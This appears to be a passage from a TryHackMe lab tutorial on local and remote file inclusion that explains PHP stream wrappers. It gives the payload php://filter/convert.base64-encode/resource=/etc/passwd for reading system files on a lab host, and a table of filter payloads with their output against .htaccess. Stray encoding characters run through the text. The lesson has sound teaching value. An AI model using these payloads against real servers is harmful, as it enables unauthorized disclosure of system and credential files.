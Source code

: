 #### RFIÂ vsÂ LFIÂ Exploitation Process

![RFI versus LFI exploitation process](https://tryhackme-images.s3.amazonaws.com/user-uploads/645b19f5d5848d004ab9c9e2/room-content/51fca7adb2f8deb2d2bd3a83dc4d0c00.png)  

This diagram above differentiates the process of exploitingÂ RFIÂ andÂ LFIÂ vulnerabilities. InÂ RFI, the focus is on including and executing a remote file, whereas, inÂ LFI, the attacker aims to access local files and potentially leverage this access to execute code on the server.

# PHP Wrappers
---

PHPÂ wrappers are part ofÂ PHP's functionality that allows users access to various data streams. Wrappers can also access or execute code through built-inÂ PHPÂ protocols, which may lead to significant security risks if not properly handled.

For instance, an application vulnerable toÂ LFIÂ might include files based on a user-supplied input without sufficient validation. In such cases, attackers can use theÂ `php://filter`Â filter. This filter allows a user to perform basic modification operations on the data before it's read or written. For example, if an attacker wants to encode the contents of an included file likeÂ `/etc/passwd`Â in base64. This can be achieved by using theÂ `convert.base64-encode`Â conversion filter of the wrapper. The final payload will then beÂ `php://filter/convert.base64-encode/resource=/etc/passwd`

For example, go toÂ [http://10.10.172.219/playground.php](http://10.10.172.219/playground.php)Â and use the final payload above.

![Vulnerable application containing the payload](https://tryhackme-images.s3.amazonaws.com/user-uploads/645b19f5d5848d004ab9c9e2/room-content/f7ffaa4b76733a80bbf34544770de6e5.png)  

Once the application processes this payload, the server will return an encoded content of theÂ **passwd**Â file.

![Vulnerable application returns the encoded value of the requested file](https://tryhackme-images.s3.amazonaws.com/user-uploads/645b19f5d5848d004ab9c9e2/room-content/099db41dc5da2eb30e7898b3ee0fe979.png)

Which the attacker can then decode to reveal the contents of the target file.  

![Decoded value of the /etc/passwd file](https://tryhackme-images.s3.amazonaws.com/user-uploads/645b19f5d5848d004ab9c9e2/room-content/30d1aaab9aa2add722fe811e674b1145.png)  

There are many categories of filters inÂ PHP. Some of these are String Filters (string.rot13, string.toupper, string.tolower, and string.strip_tags), Conversion Filters (convert.base64-encode, convert.base64-decode, convert.quoted-printable-encode, and convert.quoted-printable-decode), Compression Filters (zlib.deflate and zlib.inflate), and Encryption Filters (mcrypt, and mdecrypt) which is now deprecated.

For example, the table below represents the output of the target fileÂ **.htaccess**Â using the different string filters inÂ PHP.

|   |   |
|---|---|
|**Payload**|**Output**|
|php://filter/convert.base64-encode/resource=.htaccess|UmV3cml0ZUVuZ2luZSBvbgpPcHRpb25zIC1JbmRleGVz|
|php://filter/string.rot13/resource=.htaccess|ErjevgrRatvar ba Bcgvbaf -Vaqrkrf|
|php://filter/string.toupper/resource=.htaccess|REWRITEENGINE ON OPTIONS -INDEXES|
|php://filter/string.tolower/resource=.htaccess|rewriteengine on options -indexes|
|php://filter/string.strip_tags/resource=.htaccess|RewriteEngine on Options -Indexes|
|No filter applied|RewriteEngine on Options -Indexes|
